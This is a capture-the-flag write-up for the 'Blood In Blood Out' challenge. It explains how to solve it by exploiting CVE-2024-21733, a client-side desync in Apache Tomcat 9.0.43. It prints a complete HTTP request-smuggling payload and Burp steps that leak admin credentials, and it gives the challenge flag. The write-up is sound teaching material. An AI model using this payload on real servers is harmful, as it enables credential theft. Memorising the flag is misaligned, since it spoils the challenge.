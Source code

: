 # Blood In Blood Out
Author: LOLASL

Flag: `EPT{vatos_locos_4_ever_ese!_<3}`
## Description
```
Hey carnal, sometimes you gotta slide in a little extra something for the homies. 
Theres a placa looking every minute so keep it tight, ese.

*Access the challenge on https://challengevm*
```

## Provided challenge files
* [bloodinbloodout_source.tar.gz](../bloodinbloodout_source.tar.gz)

## Notes from the creator

The inspiration for creating the challenge came from [this tweet](https://twitter.com/pyn3rd/status/1824101455969788274) and the resemblance with [the HeartBleed bug](https://heartbleed.com/) was the background for coming up with the "Blood In Blood Out"-theme. I realize that the provided source code might have caused more harm than good with some poorly written scripts that simulated admin login with an irrelevant cookie, as well as the selfsigned cert including the keystore pass etc. which also wasn't relevant for the challenge. I provided the source to make sure you didn't end up in a bruteforce, SQLi, or other form of login bypass rabbit hole as well as to highlight that it ran explicitly on tomcat:9.0.43. My apologies to those that spent countless hours on trying to find some crazy vuln or other weirdness in the provided source code and irrelevant files. I have also been made aware that some of the github POCs are less reliable than the approach used in my intended solution which might have caused some frustration.

Personally I agree with the author of the above tweet that this vulnerability to some extent has been underestimated. It has a CVSS score of 5.3, but as you will see yourself this could easily lead to a critical authentication bypass.

## Intended Solution

The intended path for solving this challenge was to identify that the application runs on Apache Tomcat 9.0.43. This information is revealed when getting a 404 response:

![404 not found](img/404_not_found.png)

This is also explicitly defined in the provided Dockerfile:

![Dockerfile](img/dockerfile.png)



A quick google search for "tomcat 9.0.43 vulnerabilities" should point you towards CVE-2024-21733. *Client-side de-sync (CSD) vulnerabilities occur when a web server fails to correctly process the Content-Length of POST requests* There are plenty of POCs and writeups on how to exploit this vulnerability and one of the first you find should be [this one by xer0dayz who originally found the vuln](https://hackerone.com/reports/2327341) that has a working payload out of the box:
 
``` http
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
```

 
You can then use Burp to capture one of your own login submissions and copy/paste the above (just keep your original request line e.g. `POST /welcome.jsp HTTP/1.1`and the host header e.g. `Host: 10.128.3.73` from your request to target your victim host. Also remember to turn off (uncheck) the automatic content-length update in Burp when playing with desync/CL request smuggling.

![Burp settings](img/burp_cl.png)

If you then replay this with burp repeater the response should leak the credentials from the simulated admin login.

![Exploit response](img/burp_response.png)

Now use these credentials in the login form:

![Login form](img/login.png)

Profit:

![Profit](img/profit.png)

## Vatos Locos ##
I suppose most of you have neither heard of nor seen the movie Blood In Blood Out. Although I am not sure if it really withstands the test of time as the over-acting and endless amount of epic quotes might make it unintentionally hilarious, I still recommend giving this masterpiece from the 90s a watch! (Fun fact: This movie was actually produced by Disney!)
